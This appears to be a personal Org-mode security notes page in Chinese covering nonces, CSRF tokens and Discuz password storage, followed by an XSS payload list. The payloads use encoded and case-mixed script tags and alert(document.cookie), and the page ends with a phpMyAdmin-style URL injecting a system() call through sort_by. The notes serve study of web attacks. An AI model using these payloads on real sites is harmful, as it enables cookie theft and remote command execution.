 #+TITLE: 安全
#+LINK_UP: index.html
#+LINK_HOME: index.html
#+OPTIONS: H:3 num:t toc:2 \n:nil @:t ::t |:t ^:{} -:t f:t *:t <:t

* nonce
  nonce可以防止replay攻击，例如给某人转账100次。

  [[http://stackoverflow.com/questions/2250263/csrf-protection-by-storing-nonce-in-session-variable-and-form][CSRF protection by storing nonce in Session variable and form]]

* CSRF token
  可以存放在session中，例如session["csrf_token"]，然后在每一个form提交的时候都要进行判断。

  [[http://stackoverflow.com/questions/5691492/csrf-tokens-vs-nonce-confusion-are-they-the-same][CSRF tokens vs Nonce confusion - are they the same?]]

* discuz
  cdb_members里面的password字段存放的是随机数，cdb_uc_members的password存放的才是真正的密码。

* xss
  #+BEGIN_EXAMPLE
      Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
      ────────────────────────────────────────────────────────────────────────
      000   0     00    NUL '\0'                    100   64    40    @
      001   1     01    SOH (start of heading)      101   65    41    A
      002   2     02    STX (start of text)         102   66    42    B
      003   3     03    ETX (end of text)           103   67    43    C
      004   4     04    EOT (end of transmission)   104   68    44    D
      005   5     05    ENQ (enquiry)               105   69    45    E
      006   6     06    ACK (acknowledge)           106   70    46    F
      007   7     07    BEL '\a' (bell)             107   71    47    G
      010   8     08    BS  '\b' (backspace)        110   72    48    H
      011   9     09    HT  '\t' (horizontal tab)   111   73    49    I
      012   10    0A    LF  '\n' (new line)         112   74    4A    J
      013   11    0B    VT  '\v' (vertical tab)     113   75    4B    K
      014   12    0C    FF  '\f' (form feed)        114   76    4C    L
      015   13    0D    CR  '\r' (carriage ret)     115   77    4D    M
      016   14    0E    SO  (shift out)             116   78    4E    N
      017   15    0F    SI  (shift in)              117   79    4F    O
      020   16    10    DLE (data link escape)      120   80    50    P
      021   17    11    DC1 (device control 1)      121   81    51    Q
      022   18    12    DC2 (device control 2)      122   82    52    R
      023   19    13    DC3 (device control 3)      123   83    53    S
      024   20    14    DC4 (device control 4)      124   84    54    T
      025   21    15    NAK (negative ack.)         125   85    55    U
      026   22    16    SYN (synchronous idle)      126   86    56    V
      027   23    17    ETB (end of trans. blk)     127   87    57    W
      030   24    18    CAN (cancel)                130   88    58    X
      031   25    19    EM  (end of medium)         131   89    59    Y
      032   26    1A    SUB (substitute)            132   90    5A    Z
      033   27    1B    ESC (escape)                133   91    5B    [
      034   28    1C    FS  (file separator)        134   92    5C    \  '\\'
      035   29    1D    GS  (group separator)       135   93    5D    ]
      036   30    1E    RS  (record separator)      136   94    5E    ^
      037   31    1F    US  (unit separator)        137   95    5F    _
      040   32    20    SPACE                       140   96    60    `
      041   33    21    !                           141   97    61    a
      042   34    22    "                           142   98    62    b
      043   35    23    #                           143   99    63    c
      044   36    24    $                           144   100   64    d
      045   37    25    %                           145   101   65    e
      046   38    26    &                           146   102   66    f
      047   39    27    ´                           147   103   67    g
      050   40    28    (                           150   104   68    h
      051   41    29    )                           151   105   69    i
      052   42    2A    *                           152   106   6A    j
      053   43    2B    +                           153   107   6B    k
      054   44    2C    ,                           154   108   6C    l
      055   45    2D    -                           155   109   6D    m
      056   46    2E    .                           156   110   6E    n
      057   47    2F    /                           157   111   6F    o

      060   48    30    0                           160   112   70    p
      061   49    31    1                           161   113   71    q
      062   50    32    2                           162   114   72    r
      063   51    33    3                           163   115   73    s
      064   52    34    4                           164   116   74    t
      065   53    35    5                           165   117   75    u
      066   54    36    6                           166   118   76    v
      067   55    37    7                           167   119   77    w
      070   56    38    8                           170   120   78    x
      071   57    39    9                           171   121   79    y
      072   58    3A    :                           172   122   7A    z
      073   59    3B    ;                           173   123   7B    {
      074   60    3C    <                           174   124   7C    |
      075   61    3D    =                           175   125   7D    }
      076   62    3E    >                           176   126   7E    ~
      077   63    3F    ?                           177   127   7F    DEL

    Tables
      For convenience, let us give more compact tables in hex and decimal.

         2 3 4 5 6 7       30 40 50 60 70 80 90 100 110 120
       -------------      ---------------------------------
      0:   0 @ P ` p     0:    (  2  <  F  P  Z  d   n   x
      1: ! 1 A Q a q     1:    )  3  =  G  Q  [  e   o   y
      2: " 2 B R b r     2:    *  4  >  H  R  \  f   p   z
      3: # 3 C S c s     3: !  +  5  ?  I  S  ]  g   q   {
      4: $ 4 D T d t     4: "  ,  6  @  J  T  ^  h   r   |
      5: % 5 E U e u     5: #  -  7  A  K  U  _  i   s   }
      6: & 6 F V f v     6: $  .  8  B  L  V  `  j   t   ~
      7: ´ 7 G W g w     7: %  /  9  C  M  W  a  k   u  DEL
      8: ( 8 H X h x     8: &  0  :  D  N  X  b  l   v
      9: ) 9 I Y i y     9: ´  1  ;  E  O  Y  c  m   w
      A: * : J Z j z
      B: + ; K [ k {
      C: , < L \ l |
      D: - = M ] m }
      E: . > N ^ n ~
      F: / ? O _ o DEL

  #+END_EXAMPLE

  #+BEGIN_EXAMPLE
    <script>alert(1)</script>
    [%3c]scr[%69]pt[%3e]alert(1)[%3c]/scr[%69]pt[%3e]
    &#60scrip&#116&#62alert(/et/)&#60/scrip&#116&#62
    &#60&#115&#99&#114&#105&#112&#116&#62alert(/et/)&#60/scrip&#116&#62

    <img src="http://1.com/">aa<img src=


    -- original

    "><script >alert(document.cookie)</script>
    "><ScRiPt>alert(document.cookie)</ScRiPt>
    "%3e%3cscript%3ealert(document.cookie)%3c/script%3e
    "><src<script>ipt>alert(document.cookie)</scr</script>ipt>
    %00"><script>alert(document.cookie)</script>

    -- compress

    "><script >alert(document.cookie)</script> "><ScRiPt>alert(document.cookie)</ScRiPt> "%3e%3cscript%3ealert(document.cookie)%3c/script%3e "><src<script>ipt>alert(document.cookie)</scr</script>ipt> %00"><script>alert(document.cookie)</script>

  #+END_EXAMPLE

  #+BEGIN_SRC python
    def to_hex(ch):
        return '\\' + hex(ord(ch))[1:]

    def enc(s):
        return ''.join(to_hex(c) for c in s)

    print enc('<?php echo 111; ?>')
  #+END_SRC

  #+BEGIN_EXAMPLE
    server_databases.php?pos=0&dbstats=0&sort_by="]) OR system('echo 11111111111'); //&sort_order=desc&token=f93987926a4b7ba064836c7ed4f4f516
  #+END_EXAMPLE
